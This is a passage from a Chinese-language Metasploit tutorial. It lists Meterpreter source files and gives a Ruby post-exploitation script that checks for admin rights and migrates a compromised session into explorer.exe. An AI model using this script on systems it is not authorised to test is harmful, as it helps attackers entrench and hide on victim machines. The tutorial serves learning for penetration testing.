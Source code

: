 作者建议深入了解以下文件：

```
ls rex/post/meterpreter
channel.rb                client.rb                 extension.rb              object_aliases.rb         packet_parser.rb          pivot_container.rb
channel_container.rb      client_core.rb            extensions                packet.rb                 packet_response_waiter.rb ui
channels                  dependencies.rb           inbound_packet_handler.rb packet_dispatcher.rb      pivot.rb

ls msf/scripts/meterpreter
accounts.rb common.rb   file.rb     registry.rb services.rb
```

打开`msf/scripts/meterpreter`中的文件可以发现，其中没有任何函数，但是它们有各种include。后面编写Meterpreter脚本正是基于这些文件来实现功能的。

API调用将在下一个部分`RailGun`中介绍。

下面来编写一段Meterpreter脚本，来实现进程迁移：

```ruby
if(is_admin?)
    print_good("Current user is admin.")
else
    print_error("Current user is not admin.")
end

session.sys.process.get_processes().each do |x|
    if x['name'].downcase == 'explorer.exe'
        print_good("explorer.exe is running with PID #{x['pid']}")
        explorer_ppid = x['pid'].to_i
        print_good("Migrating to explorer.exe at PID #{explorer_ppid.to_s}")
        session.core.migrate(explorer_ppid)
    end
end
```

这里其实有个疑问：如果我自己编写脚本，我怎么知道可以像`session.sys.process.get_processes()`这样调用呢？通过搜索，我获得以下信息：

```ruby
# msf/core/session.rb
###
#
# The session class represents a post-exploitation, uh, session.
# Sessions can be written to, read from, and interacted with.  The
# underlying medium on which they are backed is arbitrary.  For
# instance, when an exploit is provided with a command shell,
# either through a network connection or locally, the session's
# read and write operations end up reading from and writing to
# the shell that was spawned.  The session object can be seen
# as a general means of interacting with various post-exploitation
# payloads through a common interface that is not necessarily
# tied to a network connection.
#
###
module Session

  include Framework::Offspring
  # ...
```
